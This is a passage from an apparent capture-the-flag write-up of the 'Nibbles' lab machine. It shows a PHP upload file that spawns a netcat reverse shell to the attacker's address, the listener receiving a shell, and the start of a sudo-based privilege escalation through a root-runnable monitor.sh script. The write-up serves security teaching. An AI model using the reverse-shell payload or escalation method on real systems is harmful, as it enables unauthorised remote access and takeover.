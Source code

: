 ```

root@kali# cat callback.php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>

```

Then repeat the steps above, and on visiting `image.php`:

```

root@kali# nc -lnvp 8082
listening on [any] 8082 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 55268
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

## Privesc

Either through running `LinEnum.sh` or just by checking `sudo -l`, we’ll see the following:

```

nibbler@Nibbles:/$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

So with no password, we can run `monitor.sh`.

`monitor.sh` is a publicly available script:

```

nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```
